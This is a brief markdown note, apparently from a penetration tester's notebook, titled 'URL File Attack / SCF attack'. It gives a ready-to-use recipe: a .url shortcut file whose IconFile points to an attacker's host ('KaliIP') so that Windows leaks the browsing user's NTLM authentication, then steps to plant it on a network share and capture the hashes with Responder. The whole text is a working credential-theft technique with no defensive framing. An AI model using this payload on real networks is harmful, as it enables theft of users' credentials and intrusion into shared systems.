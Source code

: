 ```yaml
---
title: URL File Attack / SCF attack
updated: 2023-09-29 05:08:31Z
created: 2023-09-29 05:07:40Z
latitude: -35.28093680
longitude: 149.13000920
altitude: 0.0000
---
```


# URL File Attack / SCF attack
1. Create file **@filename.url** 

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\KaliIP\%USERNAME%.icon
IconIndex=1
```

2. Copy file to network share
3. `responder -I eth0 -v`
